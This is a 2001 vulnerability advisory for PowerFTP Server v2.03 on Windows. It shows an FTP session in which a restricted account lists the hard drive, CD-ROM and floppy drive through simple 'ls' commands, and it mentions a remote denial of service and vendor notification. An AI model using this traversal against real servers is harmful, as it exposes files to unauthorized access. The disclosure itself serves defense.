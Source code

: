 INFO
----

    ------oOo------
    PowerFTP Server data revealing sensitive on DRIVES remotes
    and Denial of Service Vulnerability (Released exploits Codes).
    ------oOo------

    PowerFTPServer for Windows 9x/NT/2000 contains remote vulnerabilities
    which allow users to see and retrieve any file on the server.
    Exploit information included.

    Company Affected: www.CooolSoft.com
    Version: v2.03
    Date Added: 08-28-01
    Size: 1.83 MB
    OS Affected: Windows 95/98/NT/2000

    Author:

    ** Alex Hernandez <al3xhernandez@ureach.com>
    ** Thanks all the people from Spain and Argentina.
    ** Special Greets: White-B, Pablo S0r, Paco Spain, L.Martins
    ** G.Maggiotti & H.Oliveira.

    ----=[Brief Description]=------------

    PowerFTP Server is an FTP server for Windows 9x/NT/2000.
    A bug  allows  any user to change to any directory and see
    files to PATH also GET files remotely.

    ----=[Summary]=----------------------

    PowerFTP is a powerful FTP client/server software. The feature of
    PowerFTP is the function of multiple thread downloading and uploading.
    it can even split one big file into several parts, and it can make
    your computer as a standard FTP server but exist a big HOLES:

    1) Reveling data sensitive REMOTE with account restricted on Drives
       CDROM. Floppy and HDD Proof of concept.
    2) Exploit code data revealing (Remote).
    3) Remote DoS proof of concept.
    4) Exploit code DoS (Remote).
    5) Exploit code DoS attack Floppy Drive (Remote).

    ------oOo------
    Proof of concept

    # uname -a
    SunOS Lab 5.8 Generic_108528-03 sun4u sparc SUNW,Ultra-5_10
    #

    # ftp 10.0.0.1
    Connected to 10.0.0.1.
    220 Personal FTP Server ready
    Name (10.0.0.1:root): temp
    331 Password required for temp.
    Password:
    230 User temp logged in.
    ftp>
    ------oOo------
    Exist another method for view "c:\" drive type the next:
    ------oOo------

    ftp> ls c:/
    200 Port command successful.
    150 Opening data connection for directory list.
    SUHDLOG.DAT
    COMMAND.COM
    BOOTLOG.PRV
    FRUNLOG.TXT
    DOS
    [...]

    ------oOo------
    For list the files CDROM drive type the next:
    ------oOo------

    ftp> ls d:/
    200 Port command successful.
    150 Opening data connection for directory list.
    00000001.LT1
    AREF
    AUTORUN.EXE
    AUTORUN.INF
    AUTORUN.INI
    CLCD16.DLL
    CLCD32.DLL
    CLUF.TXT
    D6F04BA8.BIN
    DPLAYERX.DLL
    DRVMGT.DLL
    EE
    EEAUTO.ICO
    [...]

    ------oOo------
    For list the files Floppy drive type the next:
    ------oOo------
    ftp> ls a:/
    200 Port command successful.
    150 Opening data connection for directory list.

    NOTE: If not exist Diskket, u can listen how to run the Drive :-).


    ------oOo------------------------------------
    Vendor Response:
    The vendor was notified
    Support@cooolsoft.com
    http://www.cooolsoft.com
    Patch Temporary: Restricted files and Directories.

    Alex Hernandez <al3xhernandez@ureach.com> (c) 2001.

    ------oOo------------------------------------